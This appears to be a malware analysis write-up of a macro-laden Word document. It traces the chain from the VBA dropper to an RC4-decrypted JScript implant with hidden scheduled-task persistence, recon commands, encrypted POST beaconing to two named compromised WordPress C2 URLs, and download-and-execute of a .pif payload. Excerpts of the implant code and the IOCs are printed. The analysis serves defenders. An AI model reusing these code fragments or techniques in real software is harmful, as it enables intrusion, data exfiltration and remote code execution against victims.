









### <span style="color:lightblue">TL;DR</span>

A malicious Word document executes a password-protected VBA macro on open, which drops and runs `maintools.js` with the passphrase `EzZETcSXyKAdF_e5I2i1`. The script Base64-decodes and RC4-decrypts an embedded blob into `stage2.js` — a full implant that copies itself to `AppData`, registers a hidden logon scheduled task named `TaskManager`, runs 22 recon commands, and enters an infinite loop beaconing to two compromised WordPress sites. On a `"work"` response from the C2, it downloads, decrypts, and executes a next-stage `.pif` binary, then deletes it after 30 seconds.
### <span style="color:red">Initial Analysis</span>
```
MD5:    49b367ac261a722a7c2bbbc328c32545
SHA256: ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751

Composite Document File V2 Document, Little Endian
OS: Windows, Version 6.1, Code page: 1252
Author: user — Last Saved By: John
Created:    Fri Nov 25 19:04:00 2016
Last Saved: Fri Nov 25 20:04:00 2016
Revision: 11, Pages: 1, Words: 320, Characters: 1828
Creating Application: Microsoft Office Word
Total Editing Time: 08:00
```

#### <span style="color:red">olevba</span>

olevba extracted the full VBA source. The macro defines two auto-execution triggers — `AutoOpen` and `AutoClose` — and employs several suspicious primitives: file I/O via `Open`, `Put`, and `Binary`; process execution via `Shell`, `WScript.Shell`, and `Run`; OLE object creation via `CreateObject`; XOR-based string obfuscation; and embedded Base64 strings. The only identified IOC is the filename `maintools.js`.
```
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |AutoClose           |Runs when the Word document is closed        |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Put                 |May write to a file (if combined with Open)  |
|Suspicious|Binary              |May read or write a binary file              |
|Suspicious|Kill                |May delete a file                            |
|Suspicious|Shell               |May run an executable file or a system cmd   |
|Suspicious|WScript.Shell       |May run an executable file or a system cmd   |
|Suspicious|Run                 |May run an executable file or a system cmd   |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Windows             |May enumerate application windows            |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|Suspicious|Base64 Strings      |Base64-encoded strings detected              |
|IOC       |maintools.js        |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```
### <span style="color:red">VBA analysis</span>
#### <span style="color:red">Bypassing password protection</span>

The macro creates a `WScript.Shell` object via `CreateObject`, writes an embedded payload to disk as `maintools.js`, and executes it using the `.Run` method with a decryption key passed as a command-line argument.


I opened the document and accessed the VBA editor via ALT+F11, to inspect the macro source without triggering execution. The VBA project was password-protected.



I opened the document in HxD Hex Editor and patched the protection flag from `DPB=` to `DPx=`, invalidating the password hash.



Reopening the document raised error #40230, which I dismissed. I then opened the project properties and set a new password, restoring full access to the macro source for modification and debugging.

#### <span style="color:red">Extracting payload from VBA</span>
I commented out the `.Run` call and replaced it with a `MsgBox` statement, to surface the resolved payload path without triggering execution:
```vb
' R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
MsgBox "Path: " & OBKHLrC3vEDjVL
```




### <span style="color:red">maintools.js</span>

The script decrypts the embedded payload using `CpPT(key, data)`. The decryption key is the first argument passed from the VBA shell call: `EzZETcSXyKAdF_e5I2i1`. The decrypted payload is then executed directly in memory via `eval()`:
```
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
```
```js
try {
    var wvy1 = WScript.Arguments;
    var ssWZ = wvy1(0);                  // key = "EzZETcSXyKAdF_e5I2i1"
    var mw_payload = y3zb();             // retrieve encrypted blob
    mw_payload = LXv5(mw_payload);       // base64 decode
    mw_payload = CpPT(ssWZ, mw_payload); // decrypt
    eval(mw_payload);                    // execute
} catch (e) {
    WScript.Quit();
}

function LXv5(d27x) { 
    var LUK7 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    //...[snip]...
}

function CpPT(bOe3, F5vZ) {  // decryption
    var AWy7 = [];
    var V2Vl = 0;
    for (var i = 0; i < 256; i++) { AWy7[i] = i; }
    for (var i = 0; i < 256; i++) {
        V2Vl = (V2Vl + AWy7[i] + bOe3.charCodeAt(i % bOe3.length)) % 256;
    //...[snip]...
}

function y3zb() {   // encrypted payload blob
    var qGxZ = "zAubgpaJRj0..."
    return qGxZ;
}
```
#### <span style="color:red">controlled execution</span>
To extract payload I modified the main logic - replaced `WScript.Arguments` with the hardcoded passphrase, removed `eval()`, and added `fs.writeFileSync` to write the decrypted result to disk as `stage2.js`:
```js
try {
    var ssWZ = 'EzZETcSXyKAdF_e5I2i1';
    var mw_payload = y3zb();
    mw_payload = LXv5(mw_payload);
    mw_payload = CpPT(ssWZ, mw_payload);
    const fs = require('fs');
    fs.writeFileSync('stage2.js', mw_payload);
    console.log('done.');
} catch (e) {
    WScript.Quit();
}
```

I executed the modified script and received `stage2.js` on disk.




### <span style="color:red">stage2.js</span>
#### <span style="color:red">Initialization</span>
It was heavily obfuscated, like the previous stage.


I applied a JS beautifier to the output and started analysis.

At the top of the script several variables are declared. The variable `urls` contains two URLs — likely C2 endpoints hosted on compromised WordPress sites. The variable `commnds_for_info_gath` is an array of 22 shell commands used for system reconnaissance. Then the script calls `TfOh()`, which captures the victim's username via `WScript.Network` and generates a random string, likely used as a session identifier for C2 communication.
```js
var urls = new Array("http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php", "http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php");
var tpO8 = "w3LxnRSbJcqf8HrU";
var commnds_for_info_gath = new Array("systeminfo > ", "net view >> "...);
var QUjy = new ActiveXObject("Scripting.FileSystemObject");
var LIxF = WScript.ScriptName;
var w5mY_username = "";
```


#### <span style="color:red">Persistence</span>
The main block starts by resolving the drop path via `Blgx()`, which receives a `WScript.Shell` object from `bIdG()`. `Blgx()` then selects a writable directory for file operations, preferring `AppData\Local\Microsoft\Windows\`, falling back to `Temp`, and then the legacy `Application Data` path if neither exists.

```js
var wyKN_filepath = Blgx(bIdG());
try {
    var WE86 = bIdG();
    rGcR();
    jSm8();
} catch (e) {
    WScript.Quit();
}
//...[snip]...
function Blgx(gaWo) {
    wyKN_filepath = "c:\Users\\" + w5mY_username + "\AppData\Local\Microsoft\Windows\";
    if (!QUjy.FOLDEREXISTS(wyKN_filepath))
        wyKN_filepath = "c:\Users\" + w5mY_username + "\AppData\Local\Temp\";
    if (!QUjy.FOLDEREXISTS(wyKN_filepath))
        wyKN_filepath = "c:\Documents and Settings\" + w5mY_username + "\Application Data\Microsoft\Windows\";
    return wyKN_filepath
}
```

After the path is resolved, `rGcR()` is called for persistence. It copies the script to the drop path and registers a hidden scheduled task named `TaskManager` under the display name `Windows Task Manager` to blend with legitimate system tasks. The task triggers on user logon and executes the dropped script with the passphrase `EzZETcSXyKAdF_e5I2i1` as an argument.
```js
function rGcR() {
    v_FileName = wyKN_filepath + LIxF.substring(0, LIxF.length - 2) + "js";
    QUjy.COPYFILE(WScript.ScriptFullName, wyKN_filepath + LIxF);
    var HFp7 = (Math.random() * 150 + 350) * 1000;
    WScript.Sleep(HFp7);
    eV_C("TaskManager", "Windows Task Manager", w5mY_username, v_FileName, "EzZETcSXyKAdF_e5I2i1", wyKN_filepath, true);
}
```

#### <span style="color:red">С2 loop</span>

After persistence is established, `jSm8()` starts the main C2 loop.  
It first calls `Fv6b()` to collect and encrypt system reconnaissance data, then enters an infinite loop that iterates over both C2 URLs, sending the data and processing the server's response. `Fv6b()` runs all 22 recon commands via `cmd.exe`, appending their output to a temp file `~dat.tmp`. The file is then read and passed through the encryption function from with the hardcoded key `2f532d6baec3d0ec7b1f98aed4774843`. After each full iteration the script sleeps for a random interval between 1 and 1.5 hours. 
```js
function jSm8() {
    var enc_info = Fv6b();
    while (true) {
        for (var i = 0; i < urls.length; i++) {
            var each_url = urls[i];
            var f3cb = XEWG(each_url, enc_info);
            switch (f3cb) {
                case "good":  break;
                case "exit":  WScript.Quit(); break;
                case "work":  XBL3(each_url); break;
                case "fail":  tbMu(); break;
            }
            TfOh();
        }
        WScript.Sleep((Math.random() * 300 + 3600) * 1000);
    }
}
//...[snip]...
function Fv6b() {
    var infofile = wyKN_filepath + "~dat.tmp";
    for (var i = 0; i < commnds_for_info_gath.length; i++) {
        WE86.Run("cmd.exe /c " + commnds_for_info_gath[i] + "\"" + infofile + "\"", 0, true);
    }
    var nRVN = UspD(infofile);
    WScript.Sleep(1000);
    QUjy.DELETEFILE(infofile);
    return FXx9("2f532d6baec3d0ec7b1f98aed4774843", nRVN);
}
```
`XEWG()` sends the encrypted recon data to the C2 via HTTP POST. The server response text is returned and controls the switch in `jSm8()`.
```js
function XEWG(url, data) {
    var Kpxo = new ActiveXObject("MSXML2.XMLHTTP");
    Kpxo.OPEN("post", url, false);
    Kpxo.SETREQUESTHEADER("user-agent:", "Mozilla/5.0 (Windows NT 6.1; Win64; x64); " + Sz8k());
    Kpxo.SETREQUESTHEADER("content-type:", "application/octet-stream");
    var rRi3 = hLit(data, true);
    Kpxo.SETREQUESTHEADER("content-length:", rRi3.length);
    Kpxo.SEND(rRi3);
    return Kpxo.responseText;
}
```

On a `"work"` response, `XBL3()` is called. It sends a POST request with the body `"work"` to the C2 and downloads a binary payload from the response. The payload is decrypted with `FXx9()` using the same key `2f532d6baec3d0ec7b1f98aed4774843`, written to disk as a `.pif` file, and executed. After 30 seconds the file is deleted.
```js
function XBL3(url) {
    var pif_filename = wyKN_filepath + LIxF.substring(0, LIxF.length - 2) + "pif";
    var Kpxo = new ActiveXObject("MSXML2.XMLHTTP");
    Kpxo.OPEN("post", url, false);
    Kpxo.SETREQUESTHEADER("content-length:", "4");
    Kpxo.SEND("work");
    if (Kpxo.STATUS == 200) {
        var c0xi = m3mH.ReadText(m3mH.Size);
        var ptF0 = FXx9("2f532d6baec3d0ec7b1f98aed4774843", cz_b(c0xi));
        NoRS(ptF0, pif_filename);   // write to disk
    }
    c5ae(pif_filename, url);        // execute
    WScript.Sleep(30000);
    QUjy.DELETEFILE(pif_filename); 
}
```
### <span style="color:lightblue">IOCs</span>  

**Files**  
\- `maintools.js` — first-stage JS payload dropped by VBA macro  
\- `stage2.js` — second-stage implant decrypted from maintools.js    
\- `~dat.tmp` — temporary recon output file, deleted after use    
\- dropped `.pif` — next-stage binary, deleted after execution    

**Network**  
\- `http://www.saipadiesel124.com/wp-content/plugins/imsanity/tmp.php`  
\- `http://www.folk-cantabria.com/wp-content/plugins/wp-statistics/includes/classes/gallery_create_page_field.php`  

**Encryption keys**  
\- `EzZETcSXyKAdF_e5I2i1` — passphrase for maintools.js  
\- `2f532d6baec3d0ec7b1f98aed4774843` — key for recon data and payload decryption  

**Persistence**  
\- Scheduled task: `TaskManager` — display name `Windows Task Manager`, logon trigger, hidden  

**Document**  
\- MD5: `49b367ac261a722a7c2bbbc328c32545`  
\- SHA256: `ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751`  

